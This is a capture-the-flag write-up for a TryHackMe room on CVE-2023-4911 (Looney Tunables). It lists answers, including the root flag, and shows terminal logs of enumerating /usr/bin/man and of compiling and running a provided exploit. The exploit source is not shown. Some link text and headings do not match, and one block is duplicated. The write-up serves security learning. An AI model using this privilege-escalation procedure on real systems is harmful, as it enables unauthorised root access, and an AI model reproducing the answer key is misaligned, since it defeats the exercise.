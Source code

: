 <p align="center">November 11, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{189}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{ Looney Tunables }}$$ </h1>
<p align="center">CVE-2023-4911: That's all Sec-Folks!</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/looneytunes">GitLab CVE-2023-7028</a>.</p>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/2701eded-3213-4aa9-9919-720579b58a44"><br>
  <img height="150px" src="https://github.com/user-attachments/assets/684afecc-06b7-464c-abfe-eee8c72c461e">
</p>


<p align="center">Summary</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [1. Introduction](#1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [2. Background Information](#2) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [3. Time to Analyze the Vulnerable Code!](#3) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [4. Detection and Mitigation](#4) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[5. Conclusions](#5) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp;  [6. Room Complete](#6) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [7. My Journey](#7)

<br>
<br>
<br>
<h2 align="center">Task 1. Introduction<a id='1'></a></h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>Click and continue learning!</em><br><a id='1.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<h2 align="center">Task 2. Background Information<a id='2'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 2.1. <em>Click and continue learning!</em><br><a id='2.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<h2 align="center">Task 3. Time to Analyze the Vulnerable Code!<a id='3'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 3.1. <em>Click and continue learning!</em><br><a id='3.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>


<h2 align="center">Task 4. Exploitation<a id='4'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 4.1. <em>Click and continue learning!</em><br><a id='4.1'></a>
>> <code><strong>No answer needed</strong></code>


<br>


<h2 align="center">Task 5. Try It Yourself!<a id='5'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 5.1. <em></em>What's the value of the flag in /root/root.txt?<a id='5.1'></a>
>> <code><strong>THM{TH-TH-THATS-SECURE-FOLKS!}</strong></code>

<br>

<pre><code>$root@[Attack_Box]:~# ssh nopriv@[Target]
The authenticity of host '[Target] (1[Target])' can't be established.
...
nopriv@1[Target]'s password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

...

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

56 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
...
nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ 
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ ^C
nopriv@looneytunes:~$ readelf /usr/bin/man -p .interp

String dump of section '.interp':
  [     0]  /lib64/ld-linux-x86-64.so.2

nopriv@looneytunes:~$
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007fff21fea000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fa38ecac000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fa38ec7c000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fa38ec5a000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fa38ec4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa38ea25000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fa38ea11000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fa38e9f1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fa38edd6000)
nopriv@looneytunes:~$
</code></pre>

<br>


<pre><code>nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007fff21fea000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fa38ecac000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fa38ec7c000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fa38ec5a000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fa38ec4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa38ea25000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fa38ea11000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fa38e9f1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fa38edd6000)
nopriv@looneytunes:~$
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ gcc -o exploit exp.c
nopriv@looneytunes:~$ ls
exp  exp.c  exploit  gen_libc.py
nopriv@looneytunes:~$ chmod +x exploit
nopriv@looneytunes:~$ ./exploit
try 100
try 200
try 300
try 400
try 500
</code></pre>

<br>


<h2 align="center">Task 6. Conclusion<a id='5'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 6.1. <em></em>What's the value of the flag in /root/root.txt?<a id='6.1'></a>
>> <code><strong>No answer needed}</strong></code>

